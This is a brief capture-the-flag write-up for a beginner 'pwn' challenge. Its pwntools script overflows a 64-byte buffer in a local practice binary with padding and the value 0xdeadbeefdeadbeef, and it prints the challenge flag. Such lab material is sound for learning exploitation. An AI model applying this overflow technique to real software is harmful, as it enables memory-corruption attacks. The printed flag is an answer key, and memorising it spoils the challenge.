

## Pwn

<p align="center"></p>

### Solution

```python
from pwn import *

elf = ELF("./level1")
target = elf.process()
# gdb.attach(target, gdbscript="b 21")
print(target.recv())
payload = b"A"*64
payload += p64(0xdeadbeefdeadbeef)
target.sendline(payload)
target.interactive()
```

flag : **flag\{buffer_overflow_to_change_variables!!}**